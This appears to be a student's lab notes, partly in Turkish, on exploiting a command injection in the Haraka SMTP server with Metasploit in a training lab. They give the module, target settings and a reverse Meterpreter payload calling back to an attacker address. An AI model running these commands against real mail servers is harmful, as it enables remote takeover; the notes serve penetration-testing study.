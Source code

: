 
## Exploiting A Vulnerable SMTP Server
#smtp 


+ SMTP (Simple Mail Transfer Protocol) is a communication protocol that is used for the transmission of email.

### SMTP uses TCP #port25 by default. It can also be configured to run on TCP #port465 and #port587.

### #Haraka is an open source high performance SMTP server developed in Node.js.

### The Haraka SMTP server comes with a plugin for processing attachments. Haraka versions prior to V2.8.9 are vulnerable to command injection.
## msf6> search haraka
![[Pasted image 20240305133035.png]]
![[Pasted image 20240305133144.png]]
![[Pasted image 20240305133200.png]]

---
### nmap smtp haraka
![[Pasted image 20240305133551.png]]
>[!commands] use exploit/linux/smtp/haraka
set SRVPORT 9898
set email_to root@attackdefense.test
set payload linux/x64/meterpreter_reverse_http
set rhost 192.150.137.3
set LHOST 192.150.137.2
exploit

### Buraya dikkat. 
#### PAYLOAD'ı değiştirdiğimiz için portlar çakışmaması lazım. linux/x64/meterpreter_reverese_tcp payload'ın LPORT'u 8080 bu yüzden biz kendi SRVPORT olan portumuzu 9898 olarak değitirdik.

![[Pasted image 20240305134601.png]]
![[Pasted image 20240305134639.png]]
![[Pasted image 20240305134702.png]]

https://www.exploit-db.com/exploits/41162
https://haraka.github.io/
